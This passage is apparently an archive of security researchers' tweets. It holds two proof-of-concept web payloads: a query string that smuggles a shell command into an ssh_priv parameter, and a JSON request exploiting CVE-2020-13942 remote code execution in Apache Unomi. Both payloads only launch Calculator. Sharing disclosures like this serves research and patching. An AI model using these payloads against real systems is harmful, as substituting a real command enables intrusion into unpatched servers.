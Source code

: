 token=12312&amp;client=ssh&amp;tgt=*&amp;fun=a&amp;roster=whip1ash&amp;ssh_priv=aaa|open%20/System/Applications/Calculator.app%3b

https://t.co/jdgIUFSW6x https://t.co/s7xlLDkHDX
</blockquote>

* https://paper.seebug.org/1398/

<table><tr>
<td><img src="pictures/0e523a4e2cb7ab311900e7d441a08460f4136b6ff0795fb81bf30f9f95daa8bb.jpg" alt="0e523a4e2cb7ab311900e7d441a08460f4136b6ff0795fb81bf30f9f95daa8bb.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---

# pyn3rd
**https://twitter.com/pyn3rd/status/1328920545442680837 _at 2020-11-18, 04:38:42_**
<blockquote>
#CVE-2020-13942 Apache Unomi Remote Code Execution

PoC:
{"filters":[{"id" : "pyn3rd","filters": [{"condition": {"parameterValues": {"pyn3rd": "script::Runtime.getRuntime().exec('open -a Calculator')"},"type":"profilePropertyCondition"}}]}],"sessionId": "pyn3rd"} https://t.co/Gcw5FcZiNp
</blockquote>

<table><tr>
<td><img src="pictures/9c640f2a17ed89810f2e1a006ad4e499e0a39f499ab6bc70268e608cae2ee4a7.jpg" alt="9c640f2a17ed89810f2e1a006ad4e499e0a39f499ab6bc70268e608cae2ee4a7.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>12</code></td>
<td>Retweets: <code>162</code></td>
<td>Favorites: <code>469</code></td>
</tr></table>

---